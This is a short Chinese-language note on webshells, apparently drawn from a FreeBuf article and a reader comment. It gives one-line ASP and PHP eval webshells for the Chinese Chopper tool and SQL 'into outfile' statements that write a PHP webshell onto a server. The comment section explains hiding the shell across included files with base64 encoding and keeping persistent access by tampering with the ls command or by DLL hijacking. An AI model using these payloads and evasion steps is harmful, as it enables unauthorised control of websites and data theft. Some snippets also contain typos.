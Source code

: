 [一文详解wenshell](https://www.freebuf.com/articles/web/235651.html#comment-283833)

## webshell 

一句话木马配上中国菜刀 
文件名字为 xxx .asp  如ma.asp 



```php
asp <%excute(request("value"))%> 

​       <%eval request("pass")%> 

PHP <?php @eval<$_post['pass'] >?> 
```

 用URL地址在中国菜刀使用进行关键查找，下载，上传，拖库等操作 

 

 

sql语句执行写入webshell 

```sql
select "test1 " into outfile "D:/Apperve/tset1.txt" 

select *from hacer union select 1,2,3 into outfile "D://Appserve/test2.txt" 
```

/*将联合查询的所有内容输入到test2.txt中*/ 

```sql
select *from hacer union select 1,<?php @eval($_post['pass']);?>,3 into outfile "D://Appserve/test3.php"   //利用此漏洞上传写入php文件 
```

 使用限制 

1. 需要mssq 或者 mysql 
2. 需要管理员权限 
3.  需要知道物理路径









### webshell文章与大神操作

你这些都太低级了
看看我的 就用这个来举例 <?php @eval($_POST[cmd])?>
@eval($_POST[cmd])只需要这句就直接嵌入正常文件就能使用。然后在变形。
删除evel 修改
id=$_POST[id]
如id=xxxx
id=evel
p=@id(base64_decode($_POST[cmd]))
p=base64_encode(p)
id可以使用正常文件的提交但是要提交一个判断这样在怎么查都查不到。在编码一下输出编码输入编码
在复杂点编码可以自定义。在把密匙放在post包中。把各行代码放在不通的文件中include之。。最好是原生文件
这样一行代码放一个文件 然后在首页inlcude然后提交 就OK除非完整去读代码或者整体换不然都很难发现。
还有保险。防止把整个系统完整删除。在权限足够的情况下做个定期写入的door linux下就是在ls命令下加点代码。win就简单了做个dll劫持就好。
就是一个写文件。加入白名单就安全了。。然后各种骚了。。一般只要网站不换。几乎是永久。

[一文详解wenshell](https://www.freebuf.com/articles/web/235651.html#comment-283833)